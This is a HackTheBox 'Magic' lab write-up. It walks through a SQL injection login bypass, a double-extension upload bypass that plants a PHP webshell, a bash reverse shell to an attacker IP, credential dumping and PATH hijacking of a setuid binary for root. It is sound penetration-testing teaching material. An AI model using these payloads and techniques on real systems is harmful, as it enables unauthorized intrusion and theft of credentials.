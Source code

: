 # **HACKTHEBOX – MAGIC WRITEUP**

![](/Magic/logo.png)

# **IP: 10.10.10.185**

# **Enumeration**

First, we will run nmap.

![](/Magic/nmap.png)


The scan shows 2 ports are open. Port 22 for SSH and port 80 for Apache.

I will start an all ports nmap scan ( -p ) just in case there are more open ports.

![](/Magic/nmap-allports.png)

The Apache web server has a wider attack surface, so that is what I am going to enumerate more first.

![](/Magic/homewebsite.png)

Port 80 gives a web page with a bunch of images.

Clicking an image only displays the clicked image.
![](/Magic/image-on-website.png)


# **FOOTHOLD**

There is a login button at the bottom left corner that takes me to a php login page.

![](/Magic/login.png)

Knowing that this web server has PHP files, I am going to start a gobuster for hidden directories and php files.

![](/Magic/gobuster.png)

There is a file called &quot;upload.php&quot;. Upload functions tend to be exploitable, so I am going to take a closer look at that file. Opening that files takes me back to the login page.

Whenever I meet a login page, I will always try some weak credentials. Sadly, they didn&#39;t work on this login page. So I try some SQL injection, but the page doesn&#39;t allow spaces for whatever reason. I use Burpsuite to intercept my login request and insert the SQL injection payload that way.

Username: &#39;OR 1=1 -- -

Password: doesn&#39;t matter

Press ctrl + u to URL encode and forward it to the server.

![](/Magic/sqlinjection.png)

We got logged in!

![](/Magic/upload.png)

Exploiting an upload function is easier using Burpsuite, that is where I am going to insert my payloads.

Uploading a php file returns an error.

![](/Magic/errorupload.png)

So there is some file type validations going on, we need to bypass it.

There are a few ways to validate a file. It can be through file extension, MIME type or magic bytes. So I am going to modify the request through the repeater tab (ctrl + r) hopefully bypass the file validations.

I upload a jpeg file and put some php code in it with Burpsuite.

![](/Magic/php-reverse-shell-code.png)

This is a simple php code execution script and will run any command through the &quot;cmd&quot; parameter.

The original file name is &quot;lol.jpeg&quot; and I change it to &quot;lol.jpeg.php&quot;.

After that, I send the request to the server but I still get the error.

So I change the filename to &quot;lol.php.jpeg&quot; because there is a chance that apache .htaccess is configured in a weird way and run &quot;php.jpeg&quot; files as php.

![](/Magic/upload-success.png)

I successfully uploaded the file.

Now we need to access the file for the server to run the php code.

If you go back to the main page and click view image on an image there, the directory where the image is stored is on &quot;/image/uploads/&quot;. So I try to hit &quot;/image/uploads/lol.php.jpeg&quot;.

![](/Magic/access-thefile.png)

I successfully access the file. Now I will try injecting a command.

![](/Magic/injectcmd.png)

I run the command &quot;whoami&quot; and it returns www-data. We know for sure we have command execution.

Now we will try a reverse shell payload.

Payload: bash -c "bash -i >& /dev/tcp/10.10.14.2/9001 0>&1"

I set up a listener on port 9001, click send and we got a shell as www-data.

![](/Magic/reverseshell.png)

# **USER**

Looking at the db.php5 file, we got some credentials.

![](/Magic/db-creds.png)

Using those creds to switch user to &quot;theseus&quot; doesn&#39;t work, But we know this is a database credential, we access the database and get more stuff.

But mysql is not installed so I use &quot;mysqldump&quot; instead.

Dumping the database &quot;Magic&quot; gives more credentials.

![](/Magic/creds-inside-db.png)

Using the creds from the sqldump, I can switch to user &quot;theseus&quot;.

# **ROOT**

After getting the theseus user, I like to do some find commands to see what files belong to the user.

Running this returns a lot of stuff that I am too lazy to look at.

![](/Magic/find-user.png)

So I decided to use groups instead.

If we use the groups command, theseus belongs to a group called &quot;users&quot;.

![](/Magic/find-group.png)

Running the find command with groups returns only 1 binary and it is a setuid binary.

I try running the binary and it returns a bunch of system information.

I use strace with the &quot;-f&quot; flag to follow forks on the binary to get more information and I use grep to see what commands this binary is executing.

![](/Magic/strace.png)

The binary doesn&#39;t use absolute path which means we can abuse this.

I write a simple bash reverse shell script called &quot;free&quot;.

![](/Magic/bash-payload.png)

Then I modify the $PATH and add the directory where my &quot;free&quot; script is located and put it before the others.

![](/Magic/exploit-path.png)

Then I setup a listener on port 9002 and run the sysinfo binary and we got root!

![](/Magic/root.png)

